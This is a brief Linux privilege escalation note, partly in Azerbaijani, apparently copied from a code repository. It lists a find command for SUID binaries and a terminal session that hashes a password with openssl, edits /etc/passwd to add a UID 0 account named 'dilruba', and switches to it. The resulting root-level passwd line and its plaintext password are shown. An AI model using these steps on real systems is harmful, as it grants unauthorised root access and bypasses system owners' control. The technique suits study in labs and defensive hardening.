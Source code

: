 ## SHOWING SUID
 find / -perm -u=s -type f 2>/dev/null



## ROOTA QALXMAQ etc/passwd -e yaza biliriksə


user7@polobox:/$ openssl passwd -1
Password: 
Verifying - Password: 
$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0
user7@polobox:/$ ^C
user7@polobox:/$ nano /etc/passwd
user7@polobox:/$ su dilruba


## Nəticə

dilruba:$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0:0:0:root:/root:/bin/bash
passwd----dil1123
